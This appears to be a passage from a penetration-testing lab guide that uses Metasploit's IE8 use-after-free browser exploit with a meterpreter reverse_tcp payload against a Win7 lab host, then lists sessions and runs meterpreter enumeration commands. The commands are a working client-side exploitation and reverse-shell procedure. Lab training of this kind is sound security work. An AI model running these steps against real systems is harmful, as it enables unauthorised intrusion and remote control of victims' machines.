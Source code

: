 ./msfconsole
 
use exploit/windows/browser/ie_cgenericelement_uaf
 
set ExitOnSession false
 
set URIPATH /ie8
 
set PAYLOAD windows/meterpreter/reverse_tcp
 
set LHOST 192.168.153.164                                            (Make sure you change this to your ubuntu ip address)
 
exploit -j
 
 
- Now from the Win7 host, use Internet Explorer 8 to connect to the exploit address (local address)
- given to you by metasploit.
 
- The address will be something like:
 
http://192.168.153.164:8080/ie8                                            (Make sure you change this to your ubuntu ip address)
 
 
 
- This will simulate a victim clicking on your malicious link and being exploited with a browser exploit.
 
 
###########################
# Client-Side Enumeration #
###########################
 
 
- You can list the active sessions by typing:
 
sessions -l
 
 
 
 
- You can "interact" with any active session by typing sessions -i 3 (replace 3 with the session number you want to interact with)
 
 
sessions -i 1
 
 
 
 
 
- You should now see Metasploit's meterpreter prompt.
 
 
********************************** Figure out who and where you are **********************************
 
meterpreter> sysinfo
 
 
meterpreter> getuid
 
 
meterpreter> ipconfig
 